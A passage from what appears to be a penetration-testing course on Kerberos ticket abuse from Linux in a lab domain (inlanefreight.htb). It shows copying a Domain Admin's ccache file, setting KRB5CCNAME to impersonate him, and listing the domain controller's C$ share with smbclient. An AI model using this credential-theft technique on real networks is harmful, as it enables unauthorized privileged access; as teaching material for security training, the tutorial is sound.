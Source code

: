 #### Identifying group membership with the id command
```shell-session
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

Julio is a member of the `Domain Admins` group. We can attempt to impersonate the user and gain access to the `DC01` Domain Controller host.

To use a ccache file, we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable.

#### Importing the ccache file into our current session
```shell
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin              DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings    DHSrn        0  Wed Oct  6 20:38:04 2021
  john                      D        0  Mon Jul 18 13:19:50 2022
  julio                     D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys              AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                  D        0  Fri Feb 25 16:20:48 2022
  Program Files             DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)       D        0  Mon Jul 18 16:00:35 2022
  ProgramData               DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder              D        0  Thu Oct  6 14:46:20 2022
  System Volume Information DHS        0  Wed Jul 13 19:01:52 2022
  tools                     D        0  Thu Sep 22 18:19:04 2022
  Users                     DR        0  Thu Oct  6 11:46:05 2022
  Windows                   D        0  Wed Oct  5 13:20:00 2022
```

**Note:** klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

## Using Linux attack tools with Kerberos
Many Linux attack tools that interact with Windows and Active Directory support Kerberos authentication. If we use them from a domain-joined machine, we need to ensure our `KRB5CCNAME` environment variable is set to the ccache file we want to use.
